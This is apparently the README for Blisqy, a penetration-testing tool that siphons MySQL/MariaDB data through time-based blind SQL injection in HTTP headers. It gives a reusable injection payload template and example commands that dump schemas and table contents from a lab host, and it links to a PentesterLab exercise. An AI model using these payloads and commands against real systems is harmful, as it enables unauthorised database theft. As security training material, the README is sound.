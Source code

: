 # Blisqy
A slow data siphon for MySQL/MariaDB using bitwise operation on printable ASCII characters, via a blind-SQL injection.

## Usage
```bash
USAGE:
blisqy.py --server <Web Server> --port <port> --header <vulnerable header> --hvalue <header value> 
          --inject <point of injection>  --payload <custom sql payload> --dig <yes/no> --sleeptime <default 0.5>

Options:
  -h, --help            show this help message and exit
  --server=WEBSERVER    Specify host (web server) IP
  --port=PORT           Specify port
  --header=VULNHEADER   Provide a vulnerable HTTP Header
  --hvalue=HEADERVALUE  Specify the value for the vulnerable header
  --inject=INJECTION    Provide where to inject Sqli payload
  --payload=PAYLOAD     Provide SQL statment/query to inject as payload
  --dig=DIGGER          Automatic Mysql-Schema enumeration (takes time!)
  --sleeptime=SLEEP     Sleep-Time for blind-SQLi query (default : 0.5)
  --interactive=INTERACT
                        Turn interactive mode on/off (default : off)
```


# Basics

Blisqy will assit you enumerate a MySQL/Maria DB after finding a Time-Based Blind Sql injection vulnerability on a web server. Currently, it supports injections on HTTP Headers. You should have identified a potential Blind Sql injection vulnerability on a Webserver as demonstrated on [Pentester-Lab (From SQL Injection to Shell II)](https://pentesterlab.com/exercises/from_sqli_to_shell_II/course)

So you can't run Blisqy without :

* `--server` : the vulnerable Webserver
* `--port`  : Which port is the webserver running on?
* `--header` : the identified vulnerable HTTP header
* `--hvalue` : value for the identified vulnerable HTTP header

and most imporntatly `--inject` : what to inject after the `hvalue` (SQLi Payload).



# Options :

## --inject

After identifying a Time-Based BlindSQL injection on a web-server, this option enables the user craft and insert SQL-injection payloads. The value for this option should look like this :

`--inject "' or if((*sql*),sleep(*time*),0) and '1'='1"`

Where 
* `*sql*` - is where SQL Payloads will be inserted and 
* `*time*` - is where Time-Based test will be inserted.

## --sleeptime 
Blisqy now accepts user set --sleeptime and it's inserted on `--inject *time*`. Always make sure you have fine tuned this value to resonates with your environment and network lantency.... Otherwise you'll be toased! (the lower the value, the faster we go).
E.g. 
`--sleeeptime 0.1`

## --payload
This option allows the user run their own custom SQL-injection payloads. Other options like `--dig` and `--interactive` **MUST** not be set (should be ignored) for this option to run.

### Example :

**Command**

```bash
./blisqy.py --server 192.168.56.101 --port 80 --header "X-Forwarded-For" --hvalue "hacker" 
           --sleeptime 0.1 
           --inject "' or if((*sql*),sleep(*time*),0) and '1'='1" 
           --payload "select @@hostname"
```
![Custom Payload](http://i.imgur.com/uB3s7Xk.png)


## --interactive

This option accept two values i.e on or off and it compliments option `--dig` (this option must be set to `yes`). If set as `--interactive on` the user will get to choose which discovered table to enumerate and decide if data from the table should be dumped or not. When set as "--interactive off", every table gets enumerated and all data dumped.

### Getting data from a Table :
The user can decide which columns to extract data from when `--interactive` is set on. The format looks something like this : 
`column1*column1*column2` - just the column names separated by an asterisk. User can also avoid data collection on a particular table by entering `skip` instead of the column names.

### Example :

**Command**

```bash
./blisqy.py --server 192.168.56.101 --port 80 --header "X-Forwarded-For" --hvalue "hacker" --dig yes 
            --sleeptime 0.1 --interactive on --inject "' or if((*sql*),sleep(*time*),0) and '1'='1"
```
![Dig A Specific Table](http://i.imgur.com/HNj8Dwx.png)


## To Do :
* Intergrate an inteligent Fuzzer for hunting SQL injection vulnerabrity(ies) on HTTP Headers and Web Elements
* Support Blind-SQLi enumeration of URLs and WEB Elements apart from HTTP Headers.
